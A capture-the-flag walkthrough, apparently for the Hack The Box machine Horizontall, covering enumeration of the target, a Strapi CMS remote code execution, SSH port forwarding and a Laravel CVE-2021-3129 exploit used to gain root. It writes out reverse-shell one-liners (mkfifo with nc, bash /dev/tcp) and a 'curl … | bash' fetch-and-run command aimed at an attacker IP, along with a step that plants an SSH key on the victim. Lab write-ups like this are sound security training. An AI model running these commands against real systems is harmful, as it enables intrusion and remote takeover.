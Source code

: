 ## Horizontall

Difficulty: Easy

### User Flag

```
rustscan -a horizontall.htb --ulimit 5000 -- -A -sV -sC
```

![rustscan](https://user-images.githubusercontent.com/58514930/221204033-bf1aefe3-6129-46ee-a6cc-952b061b2c70.png)

<br>

Doing some subdomain enumeration, we discover "api-prod".

```
wfuzz -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://horizontall.htb/ --hc 301 -H "Host:FUZZ.horizontall.htb"
```

Another way could be searching for the domain name in javascript files.

```
cat app.c68eb462.js | grep "horizontall"
```

![javascriptSubdomain](https://user-images.githubusercontent.com/58514930/221205260-8f584015-045a-4057-8211-4389f24a4de2.png)

<br>

```
gobuster dir -u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirb/big.txt -t 50
```

![gobuster](https://user-images.githubusercontent.com/58514930/221206512-a335941e-d904-4f54-a273-d3c72a8ac320.png)

<br>

Accessing /admin we find a Strapi CMS.

We can discover the version by accessing /admin/init.

![strapiCMS](https://user-images.githubusercontent.com/58514930/221207132-18b90eab-4a96-436c-9fc5-7036c89d65c6.png)

![strapVersion](https://user-images.githubusercontent.com/58514930/221207153-a1fa45cf-d757-47ee-a49a-fabac5fc2672.png)

<br>

Searching for vulnerabilities, we find [this exploit](https://www.exploit-db.com/exploits/50239) to RCE.  
Just use it and send a mkfifo reverse shell.

```
python3 exploit.py http://api-prod.horizontal.htb
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f
```

![exploitStrapi](https://user-images.githubusercontent.com/58514930/221207555-ec6da3c2-5c23-4d37-ac2d-def9368472eb.png)

### Root Flag

Doing some enumeration, we discover port 8000 is listening something.

![listeningPorts](https://user-images.githubusercontent.com/58514930/221207941-33993dff-3450-4bc2-aa0b-67572e404b3a.png)

<br>

We need to generate an SSH key to forward the port as we don't have the strapi password.

```
# On our machine
ssh-keygen -t rsa
```

Copy the content of .pub file inside ~/.ssh/authorized_keys in the victim machine.  

![generateKey](https://user-images.githubusercontent.com/58514930/221208575-56ae4da1-e024-414a-8831-e6d98fa0c127.png)

<br>

Now we forward the port 8000 from victim to 8001 on our localhost.

```
ssh -i strapi -L 8001:127.0.0.1:8000 strapi@10.10.11.105
```

Accessing it, there is a Laravel v8.

![laravel](https://user-images.githubusercontent.com/58514930/221208796-3825e6e1-da83-4773-9797-4eac1a1d0ad1.png)

<br>

Searching for exploits, we find [this one](https://github.com/nth347/CVE-2021-3129_exploit).

Create a "shell" file with "bash -i >& /dev/tcp/10.10.14.2/3333 0>&1;" since a direct reverse shell doesn't seems to work here.

```
./exploit.py http://localhost:8001 Monolog/RCE1 "curl 10.10.14.2:8000/shell | bash"
```

![gettingRoot](https://user-images.githubusercontent.com/58514930/221209721-88ddbbda-4691-40dc-bb9a-d2263aac2038.png)

![rootUser](https://user-images.githubusercontent.com/58514930/221209745-b43b6fe2-5d7b-4279-bb5b-d9b36431f574.png)
